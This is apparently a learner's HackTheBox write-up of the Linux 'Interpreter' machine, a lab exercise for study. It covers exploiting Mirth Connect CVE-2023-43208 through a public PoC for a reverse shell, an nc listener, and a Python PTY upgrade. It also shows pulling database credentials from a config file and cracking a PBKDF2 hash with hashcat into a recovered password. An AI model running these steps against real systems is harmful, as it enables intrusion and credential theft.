#  Interpreter - HackTheBox

**Difficulty :** Medium  
**OS :** Linux  
**Date :** 9 march 2026

### Table of contents
- [[#1. Recon|1. Recon]]
- [[#2. Enumeration|2. Enumeration]]
- [[#3. Exploitation|3. Exploitation]]
- [[#4. Privilege Escalation|4. Privilege Escalation]]
- [[#5. Lessons Learned|5. Lessons Learned]]
- [[#6. Technical notes|6. Technical notes]]
	- [[#6. Technical notes#`ip a | grep tun0`|`ip a | grep tun0`]]
	- [[#6. Technical notes#`nc -lnvp 9001`|`nc -lnvp 9001`]]
	- [[#6. Technical notes#nc shell and PTY, TTY upgrading.|nc shell and PTY, TTY upgrading.]]


---

## 1. Recon

``` bash
> ping 10.129.3.16
PING 10.129.3.16 (10.129.3.16) 56(84) bytes of data.
64 bytes from 10.129.3.16: icmp_seq=1 ttl=63 time=245 ms
64 bytes from 10.129.3.16: icmp_seq=2 ttl=63 time=272 ms
^C
--- 10.129.3.16 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2002ms
rtt min/avg/max/mdev = 244.658/258.206/271.754/13.548 ms
> nmap -sC -sV 10.129.3.16
```

> nmap -p 21,22,23,25,80,443,445,3389,8080 10.129.3.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-09 13:01 -03
Nmap scan report for 10.129.3.16
Host is up (0.25s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   open   http
443/tcp  open   https
445/tcp  closed microsoft-ds
3389/tcp closed ms-wbt-server
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds

Results :
- Port 22 : SSH OpenSSH 8.2
- Port 80 : HTTP Apache 2.4.41

We find that the HTTP and HTTPS ports are open, so let's try to check the web page at that ip.

http://10.129.4.116

We are being redirected at : http://10.129.4.116/webadmin/Index.action

The page shown is a Mirth Admin panel.


## 2. Enumeration

Lets search exploits or CVE for that current mirth 2021 version

https://horizon3.ai/attack-research/disclosures/nextgen-mirth-connect-remote-code-execution/

Remote Code execution vulnerability found in 2023 and affecting all anterior versions. Our version is apparently from 2021 so it applies.
In the mirth connect administrator file, we can see that the version is 4.4.0 so its vulnerable to this exploit. 

"This is an easily exploitable, unauthenticated remote code execution vulnerability. Attackers would most likely exploit this vulnerability for initial access or to compromise sensitive healthcare data."

This exploits allows the attacker to send a malicious XML file that the server processes without checking for a password first, allowing to execute commands on the server and take over the machine.

https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT

The Proof of Concept that i'm going to use for that exploit.

The exploit works by sending a malicious XML payload to Mirth Connect's /api/users endpoint without authentication. The XML contains a serialized Java object chain (Apache Commons Collections gadget chain) that triggers remote code execution when Mirth deserializes it. The injected command opens a reverse shell by redirecting bash I/O through a TCP connection back to the attacker's machine via /dev/tcp. This is a Java Deserialization vulnerability. Mirth trusts and executes the content of incoming XML without validation, allowing arbitrary command execution as the mirth user.

---

## 3. Exploitation

The command to execute for the exploit script is as follows :

```bash 
python3 CVE-2023-43208.py -u <Target URL> -lh <Listening Host> -lp <Listening Port>
```

Let's find our IP address that will be the listening host for the reverse shell using the IP a command :



Our IP is 10.10.14.239

Let's chose a free port on our machine like 9001.

The exploit is making a reverse shell. Attacking the mirth, and sending the responses in our IP in the listening port.

We can send and receive commands in a specific shell with the nc command at the specific port.



When navigating in the folders and files, I found a mirth properties in the conf folder. It contains the user and pass to connect to the database.




we connect to it with mysql and print the tables.

demander pourquoi le shell nc normal ne renvoie pas la commande du mysql, pourquoi on doit fait spawn un meilleur shell en python.


When trying to connect to MySQL, I didn't have anything returned in the terminal :
After getting the reverse shell via nc, the shell lacks a proper TTY. This means interactive programs like MySQL won't work correctly. Spawning a pseudo-TTY with Python is sufficient for most operations: `python3 -c 'import pty; pty.spawn("/bin/bash")'` Note: this gives a partial TTY which is enough for interactive programs, but without full terminal features like tab completion or password masking. A full TTY upgrade (stty raw -echo) would be needed for complete terminal behavior.

ps aux : python is present on the machine. `/usr/bin/pyth`



The command to successfully spawn a pty.



Let's now connect to the database using mysql command, and show the tables.



Doing a select on the PERSON table, we are shown info of user 'sedric'



Doing a select on the PERSON_PASSWORD table, we are shown his password. The password looks encrypted. Let's try to decrypt it, and then login as user sedric on the machine.




The stored password hash `u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==` is encoded in base64 (containing + sign, == at the end...). Lets decode it first.

After some research, in the Mirth Connect 4.4.0 version, the hashing algorithm used is PBKDF2 with HMAC-SHA256. The default number of iterations is 600,000.

Our hash in binary looks like this. `10111011 11111111 10001011 00000100 00010011 10010100 10011101 10100111 01100010 11001000 01010000 01101100 00110000 11101010 00001000 00001100 11110010 11011011 01010001 00011101 00101011 10010011 10011111 01100100 00010010 01000011 11010100 11010111 10111000 10101101 01110110 10110101 01010110 00000011 11111001 00001011 00110010 11011101 11110000 11111011`

40 bytes in total. After some research, I found that the SHA256 hash is always 32 bytes long. So that means our hash contains a salt too. We have to know if the hash is at the beginning of the hash or at the end.

After some research, in Mirth Connect (and most of java PBKDF2 implementations) the salt is always at the start.

There are 40 bytes here. We can conclude that the first 8 ones are going to be the salt, and the last 32 ones are going to be the hash.

Lets encode them to base64 again, and create the file for hashcat.

The hashcat format : `sha256:[number of iterations]:[salt_in_base64]:[hash_in_base64]`

sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=

Let's store this in a mirth_hash.txt file and run the hashcat command with a dictionnary attack using rockyou.txt file database.



After some time, hashcat successfully cracked sedric's password.



Password snowflake1 found. lets try to connect to sedric.



connected successfully to sedric, user flag found in the home folder.



---

## 4. Privilege Escalation


Let's now try to do a privilege escalation to access root.
doing a ps aux on the machine to see the running processes, we see two python scripts being run as root.


One python script contains this function which runs an eval as root. With an intensive search apparently it can be used to execute remote code in the payload, because it simply extracts whats in the {} without checking it. A bit like the script into the exploit PoC I used for mirth connect. Instead of java, it would be done in a python script. It will allow privilege escalation because this script runs as root. I currently do not have the technical knowledge to execute this and I relied too much on AI to help me which I didn't like. I learned a LOT already from this room.



---

## 5. Lessons Learned

nmap to scan open ports.
find admin mirth web interface and CVE associated.
CVE : remote code execution in old mirth version.

Found a tool to execute a reverse shell on the machine. Learn what a reverse shell was and how to use the nc command.

Learned about TTY and PTY spawning.

Learned to navigate into mirth properties and find db info which led to finding a user's password.

Learned about mirth password stored, SHA256, and used hashcat to find the users password.

Found the user's flag.

---

## 6. Technical notes

### `ip a | grep tun0`

`ip a` : Displays all the network interfaces on the machine. like a modern ifconfig. It lists : eth0 (physical network card). lo, (loopback localhost), tun0 (the HTB VPN interface) 
We need the tun0 one because we are on the same network as the mirth machine. if not, we would not be able to communicate with it.

`|` : Pipe that takes the result of the left side command and send it as input into the right side command

`grep tun0` : Filters the rows that contain "tun0". without the grep we would see all the interfaces.

### `nc -lnvp 9001`

`nc` : netcat. A tool that opens TCP/UDP connections. 

`-l` :  Listening mode. Instead of connecting to someone, it waits for someone to connect to it (in our instance, our mirth exploit script)

`-n` : no DNS. Does not resolve domain names, so that it works only with IPs. Faster and more stable.

`-v` : Verbose, to print out what is happening...   "Listening on...", "Connection received from...". 

`-p 9001` : port. Listen specifically on the port 9001.

What happens technically : netcat opens a TCP socket on our free port 9001. When the target machine connects, netcat links both streams, what I type gets sent to the machine,  and what the machines answers get sent back to me. Its a raw bi-directional stream.

### nc shell and PTY, TTY upgrading.

When an user receives a reverse shell via nc, we get what we call a non interactive shell without TTY.
TTY stands for TeleTYpewriter. It's the interface between the user and the shell. A true terminal has a TTY. It manages special key presses, CTRL+C interruptions, screen size, interactive commands.

A nc shell doesn't have TTY. its just a raw stream of text. The consequences are :
- Interactive programs such as mysql, sudo, vi, su. Need tty to work. Without tty they fail silently or behave in a weird way.
- CTRL+C kills the connection instead of interrupting the current command.
- The passwords are displayed in plain text.
- The tab autocomplete function does not work.

How to know when we need a TTY : when an interactive command doesn't work, displays strange errors, or displays `sh : X: not found` for existing commands, it's a signal. For example that's why MySQL didn't display anything after `show tables;` 

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`** 

Python is present on the target machine (ps aux). this one-liner imports the pty module which allows us to create a pseudo terminal, and spawn a bash inside. As a result we have a partial TTY to get results for interactive programs such as MySQL.